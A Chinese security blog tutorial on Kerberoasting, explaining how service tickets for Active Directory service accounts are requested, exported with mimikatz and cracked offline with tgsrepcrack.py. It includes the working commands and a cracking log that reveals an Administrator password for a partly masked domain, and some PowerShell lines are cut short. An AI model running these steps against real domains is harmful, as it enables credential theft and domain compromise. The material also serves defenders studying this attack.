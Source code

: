 
# 【技术分享】内网安全之域服务账号破解实践


                                阅读量   
                                **224095**
                            
                        |
                        
                                                                                                                                    ![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



 [![](./img/85606/t01283653516f8bfe95.png)](./img/85606/t01283653516f8bfe95.png)

****

作者：[shuteer](http://bobao.360.cn/member/contribute?uid=1268998211)

预估稿费：300RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**0x01引言**

**** 对于国内的网络管理者而言，现有的网络安全防护手段大多强调对来自外部的主动攻击进行预防，检测以及处理，而授予内部主机更多的信任。但是，统计数字表明，相当多的安全事件是由内网用户有意或无意的操作造成的。为保护内网的安全，一些单 位将内网与外网物理隔离，或者将内部通过统一的网关接入外网，并在网关处架设防火墙、IPS、IDS等安全监控设备。尽管如上述所示的各类安全措施都得到了实现，众多管理者们却仍然头疼于泄密事件或其它各类内网安全事件的频繁发生，这就充分说明了内网安全维护的复杂性。所以很多企业会采取使用域来管理内部较为复杂的网络， 因为它可以安全集中管理，统一安全策略。

域控制器相当一个门卫，它包含了由这个域的账户密码、管理策略等信息构成的数据库。当一台计算机登录域时，域控制器首先要鉴别这台电脑是否是属于这个域的，用户使用的登录账号和密码是否正确。如果正确则允许计算机登入这个域，使用该域内其有权限访问的任何资源，像文件服务器、打印服务器（也就是说域控制器仅起到一个验证作用，访问其他资源并不需要再跟域控制器扯上关系）;如果不正确则不允许 计算机登入，这时计算机将无法访问域内任何资源，这在一定程度上保护了企业网络 资源。

本文将从攻击者的角度出发，针对域服务账号的安全作出相关的安全探索与研究。

<br>

**0x02何为Kerberoast**

Kerberoast能够在不对目标系统发送任何数据的情况下用普通用户身份从活动目录中提取服务的账户凭证。因为人们总是喜欢设置弱口令，所以这种攻击经常能够成功。原因是：大多数服务账户的密码都和域的密码最短长度限制一样长（通常是10个或12个字符）,这意味着即使是采用暴力破解的方式，所花费的时间也不太可能超过密码过期时限。更何况有的服务账户甚至还没有设置密码过期时限。更好玩的是，大多数服务账户都有权限过大的问题，通常还是域管理员组的成员，有着对活动目录的全部权限（尽管有时候服务账户只需要修改某些特定对象的属性或者只需在特定服务上拥有管理权限）。

**知识点1**：这种攻击对Windows系统内置账户不会成功，因为这类账户有着128位长的密码，这么长的密码不可能在短时间内破解出来。

攻击的步骤包括为目标的服务账户的服务器主体名称(Service Principle Name-SPN)请求一个Kerbero服务票据 (TGS) 。这里会采用一个有效的用户认证票据（TGT）来请求一个或几个运行在服务器上的目标服务票据。域控不会检测用户是否真正连接到了这些资源上(即使用户可能真的有权限访问)。域控会在活动目录中查找SPN并且用SPN关联的用户账户把票据进行加密，以此赋予用户访问服务的权限。请求的Kerbero服务票据的加密类型是 RC4_HMAC_MD5, 这意味着服务账户的NTLM密码哈希会被用来加密服务票据。所以Kerberoast能够通过尝试不同的NTLM哈希来解开kerberos票据，一旦票据被成功解开，它的密码也就到手了。

**知识点2**：SPN 是服务在使用 Kerberos 身份验证的网络上的唯一标识符。 它由服务类、主机名和端口组成。 在使用 Kerberos 身份验证的网络中，必须在内置计算机帐户（如 NetworkService 或 LocalSystem）或用户帐户下为服务器注册 SPN。 对于内置帐户，SPN 将自动进行注册。 但是，如果在域用户帐户下运行服务，则必须为要使用的帐户手动注册 SPN。

**知识点3：**获得服务票据不需要提权，同时也不会发送数据到目标机器。

 

**0x03工具简介**

1.GetUserSPNs.vbs 或者GetUserSPNs.ps1 获取spn账号，在本文中获取使用的是系统默认的工具setspn（在域控制器上运行该工具必须具有域管理员身份）

2.mimikatz 获取用户密码工具 

3.tgsrepcrack.py破解用户票据 

4.密码字典

<br>

**0x04查看当前电脑的用户票据**

查看当前电脑的所有票据使用到的命令为klist。获取当前电脑登陆的票据可以直接使用klist来获取，具体如下图所示：

[![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b816c34535442d97.png)

** **

**0x05获取所有的域服务账号**

获取所有的域服务账号主要有三种方法，第一种是直接使用windows自带的setspn，第二种是使用vbs的脚本GetUserSPNs.vbs，第三者使用powershell的脚本GetUserSPNs.ps来获取。在本文中使用了第一种方法来获取所有的域服务账号，命令为setspn -T DOMAINNAME -F -Q */*。



[![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f134748bce1d7658.png)

 

**0x06在本地获取域服务账号的票据**

在本机获取指定的域服务账号的票据 获取服务账号administrator的相关票据。命令如下：



```
PS C:&gt; Add-Type -AssemblyName System.IdentityModel
PS C:&gt; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
```

[![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017c2aeb6999763f72.png)

我们现在查看已经获取的用户帐号administrator的票据

[![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a69b3c9e8e631abe.png)

**<br>**

**0x07获取所有的域服务账号的票据，比较复杂就不截图了**

```
PS C:&gt; Add-Type  -AssemblyName  System.IdentityModel
```

[![](./img/85606/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c1e9e88f54c8e692.png)

 

**0x08导出所有域用户的票据**

在此基础上可以使用mimikatz工具从RAM中对所有的票据进行导出，具体使用到的命令如 下：****

```
mimikatz # kerberos::list /export
```



**0x09破解获取的用户票据**



接着在KALI下离线使用tgsrepcrack.py对导出的票据进行暴力破解，具体操作如下：

使用的命令为：

```
tgsrepcrack.py -w wordlist.txt *.kirbi
root@kali:/home/kerberoast# python tgsrepcrack.py pass.txt 2-40a10000- Administrator@MSSQLSvc~antivirusserver.ppum.xxxxx.net-PPUM.xxxxx.NET.kirbi found password for ticket 0: good.net2007 File: 2-40a10000- Administrator@MSSQLSvc~antivirusserver.ppum.xxxxx.net-PPUM.xxxxx.NET.kirbi  All tickets cracked!
```

很顺利，我们成功破解出了密码good.net2007。

 

**0x10对域进行深层次的渗透（略，等下文再续）**

The End.

 

欢迎各位的交流和批评指正！

Author: 椰树

QQ群: 282951544

微信公众号交流：杂术馆
